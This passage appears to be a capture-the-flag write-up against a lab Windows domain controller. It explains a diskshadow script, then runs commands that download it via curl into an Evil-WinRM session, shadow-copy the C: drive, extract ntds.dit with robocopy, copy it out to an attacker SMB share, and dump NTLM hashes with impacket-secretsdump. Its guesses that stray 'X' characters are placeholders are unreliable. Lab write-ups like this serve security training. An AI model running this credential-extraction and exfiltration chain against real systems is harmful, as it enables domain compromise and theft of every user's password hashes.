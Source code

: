 1. `set metadata C:\Windows\Temp\meta.cabX`: This command is setting metadata for the backup operation. It seems to be specifying the location where metadata related to the backup will be stored, in this case, `C:\Windows\Temp\meta.cabX`.
    
2. `set context clientaccessibleX`: This command is setting the context for the backup operation. It seems to be specifying that the backup should be accessible by the client. The `X` might be a placeholder or a variable.
    
3. `set context persistentX`: This command is setting another context for the backup operation. It could be specifying that the backup should be persistent, meaning it should remain available or stored for a certain period. The `X` might be a placeholder or a variable.
    
4. `begin backupX`: This command is initiating the backup operation. The `X` might be a placeholder or a variable.
    
5. `add volume C: alias cdriveX`: This command is adding the volume `C:` to the backup operation with an alias `cdriveX`. This means that the contents of the `C:` drive will be included in the backup. The `X` might be a placeholder or a variable.
    
6. `createX`: This command is creating something related to the backup operation. It's not entirely clear what it's creating without more context or additional information about the script.
    
7. `expose %cdrive% E:X`: This command seems to be exposing the contents of the `C:` drive, which was added to the backup operation with the alias `cdriveX`, to a location specified by `%cdrive%` on drive `E:`. This might involve mounting the backup or making it accessible in some way. The `X` might be a placeholder or a variable.
    
8. `end backupX`: This command is ending the backup operation. The `X` might be a placeholder or a variable.

Let's set up a simple Python server so we can curl this script to our WinRM session.

```Kali
└─$ python3 -m http.server 9001

*Evil-WinRM* PS C:\temp> curl http://(Kali IP):9001/script.txt -O script.txt
```

Next, let's run `diskshadow` to create a copy of the `C:\` drive.

```Evil-WinRM
diskshadow /s script.txt
```

After the filesystem copy finishes, it will be saved to `E:\Windows`. This is where we can use `robocopy` to move it back to our `C:\` drive.

`robocopy /b E:\Windows\ntds . ntds.dit`

Let's now use our SMB server on our Kali machine to download the `ntds.dit` file from the WinRM session.

```Evil-WinRM
*Evil-WinRM* PS C:\temp> copy ntds.dit \\10.8.0.173\smb\ntds.dit
```

From here, all that's left to do is retrieve the correct NTLM hashes by dumping the DC secrets with `impacket-secretsdump`.

```Kali
impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Administrator:500:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::
```
